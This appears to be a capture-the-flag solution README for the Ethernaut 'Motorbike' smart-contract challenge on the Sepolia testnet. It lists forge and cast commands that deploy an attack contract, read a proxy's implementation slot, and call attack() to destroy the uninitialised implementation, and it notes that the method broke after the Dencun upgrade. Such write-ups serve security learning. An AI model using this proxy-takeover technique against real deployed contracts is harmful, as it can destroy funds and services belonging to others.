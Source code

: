 # Motorbike Solution

Please note that this challenge is not solvable after the Dencun upgrade when creating a new contract instance in the UI. Instead, you need to selfdestruct the contract in the same transaction as its creation.

For a detailed solution, check out https://github.com/Ching367436/ethernaut-motorbike-solution-after-decun-upgrade/.

The below solution worked before the Dencun upgrade and captures the gist of the challenge.

Deploy:

```bash
forge create MotorbikeHack --broadcast --rpc-url $SEPOLIA_RPC_URL --account sepoliaKey
```

Run to retrieve the `implementationAddress`:

```bash
cast storage <instanceAddress> 0x360894a13ba1a3210667c828492db98dca3e2076cc3735a920a3ca505d382bbc --rpc-url $SEPOLIA_RPC_URL
# 0x0000000000000000000000004e98c3fc59de33449b101d5170d3760d3b7c1701
cast parse-bytes32-address <implementationAddress>
# cast parse-bytes32-address 0x0000000000000000000000004e98c3fc59de33449b101d5170d3760d3b7c1701
# 0x4e98c3FC59de33449B101D5170d3760D3B7c1701
```

Run:

```bash
cast send <motorbikeHackAddress> "attack(address)" <implementationAddress> --rpc-url $SEPOLIA_RPC_URL --account sepoliaKey --gas-limit 1000000
# cast send <motorbikeHackAddress> "attack(address)" 0x4e98c3FC59de33449B101D5170d3760D3B7c1701 --rpc-url $SEPOLIA_RPC_URL --account sepoliaKey --gas-limit 1000000
```
